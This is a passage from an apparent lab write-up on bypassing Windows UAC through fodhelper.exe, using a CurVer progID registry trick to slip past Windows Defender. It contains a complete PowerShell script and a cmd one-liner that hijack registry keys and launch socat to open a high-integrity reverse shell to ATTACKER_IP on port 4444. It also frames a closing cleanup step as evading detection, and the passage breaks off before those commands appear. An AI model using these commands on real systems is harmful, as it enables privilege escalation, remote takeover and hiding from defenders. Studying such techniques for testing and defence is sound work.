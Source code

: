 The main problem with our exploit, besides still alerting Defender, is that it gives little room for variation, as we need to write specific registry keys for it to trigger making it easy for Windows Defender to detect. But we can still try to do something about it
## Improving the improvements
A variation on the Fodhelper exploit was proposed, where different registry keys are used, but the basic principle is the same.
Instead of writing our payload into `HKCU\Software\Classes\ms-settings\Shell\Open\command`, we will use the `CurVer` entry under a progID registry key. This entry is used when we have multiple instances of an application with different versions running on the same system. CurVer allows us to point to the default version of the application to be used by Windows when opening a given file type.

To this end, we can create an entry on the registry for a new progID of our choice and then point the CurVer entry in the ms-settings progID to our newly created progID. This way, when Fodhelper tries opening a file using the ms-settings progID it will notice the CurVer entry pointing to our new progID and check it to see what command to use.
We can accomplish this with the following powershell script
```powershell
$cmd = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:ATTACKER_IP:4444 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force 
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $cmd -Force

New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force 
Set-ItemProperty "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force

Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```
This exploit creates a new progID with the name `.pwn` and associates our payload to the command used when opening such files. It then points the CurVer entry of ms-settings to our `.pwn` progID. When Fodhelper tries opening an ms-settings program, it will instead be pointed to the `.pwn` progID and use its associated command.

This technique is more likely to evade Windows Defender since we have more liberty on where to put our payload, as the name of the progID that holds our payload is entirely arbitrary.
Now, if we try to run this exploit it will still flag us, as this is a known AV evasion technique. However, we can try possible variations of this exploit, like changing it from a Powershell script to be used in the cmd instead.
```cmd
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:ATTACKER_IP:4444 EXEC:cmd.exe,pipes"
reg add "HKCU\Software\Classes\.ownd\Shell\Open\command" /d %CMD% /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".ownd" /f & fodhelper.exe
```
And presto! We get a high integrity reverse shell without triggering Defender.

## Cleanup
As a result of executing this exploit, some artefacts were created on the target system, such as registry keys. To avoid detection, we need to clean up after ourselves with the following commands:
